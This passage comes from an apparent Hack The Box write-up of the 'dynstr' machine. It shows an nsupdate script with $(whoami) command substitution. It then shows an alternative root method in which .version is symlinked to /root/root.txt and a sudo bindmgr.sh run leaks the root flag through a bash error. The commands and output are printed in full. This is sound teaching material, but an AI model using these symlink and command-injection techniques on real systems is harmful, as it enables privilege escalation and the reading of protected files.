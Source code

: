 ```

server 127.0.0.1
zone no-ip.htb
update delete $(whoami).no-ip-htb
update add $(whoami).no-ip-htb 30 IN A 10.10.14.8
send

```

That explains why it runs twice.

### Alternative Root via Flag Leak

#### Method

The version check in `bindmgr.sh` looks like:

```

if [[ ! -f .version ]] ; then
    echo "[-] ERROR: Check versioning. Exiting."
    exit 42
fi
if [[ "`cat .version 2>/dev/null`" -le "`cat $BINDMGR_DIR/.version 2>/dev/null`" ]] ; then
    echo "[-] ERROR: Check versioning. Exiting."
    exit 43
fi

```

`-f` checks if the file is a regular file and it exists. That author intended that check to ensure that `.version` wasn’t a symlink. However, from the [Bash Conditional Expressions docs](https://www.gnu.org/software/bash/manual/html_node/Bash-Conditional-Expressions.html):

> Unless otherwise specified, primaries that operate on files follow symbolic links and operate on the target of the link, rather than the link itself.

`-h` or `-L` would have been appropriate choices here.

As long as the file points to a valid file that exists and is readable by root, then it will pass that check. What happens if I symlink `.version` to `root.txt`? It will then try to compare the contents to the `.version` file in `/etc/bind/named.bindmgr`.

I’ll drop into a new temp directory and try:

```

bindmgr@dynstr:/dev/shm$ cd $(mktemp -d)
bindmgr@dynstr:/tmp/tmp.3gN0fV4V9D$ ln -s /root/root.txt .version
bindmgr@dynstr:/tmp/tmp.3gN0fV4V9D$ sudo bindmgr.sh 
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
[+] Running /usr/local/bin/bindmgr.sh to stage new configuration from /tmp/tmp.3gN0fV4V9D.
/usr/local/bin/bindmgr.sh: line 28: [[: 5dd462205002e72de695163969729020: value too great for base (error token is "5dd462205002e72de695163969729020")
[+] Creating /etc/bind/named.conf.bindmgr file.
[+] Staging files to /etc/bind/named.bindmgr.
cp: cannot stat '*': No such file or directory
[+] Checking staged configuration.
[-] ERROR: The generated configuration is not valid. Please fix following errors: 
    /etc/bind/named.conf.bindmgr:2: open: /etc/bind/named.bindmgr/*: file not found

```

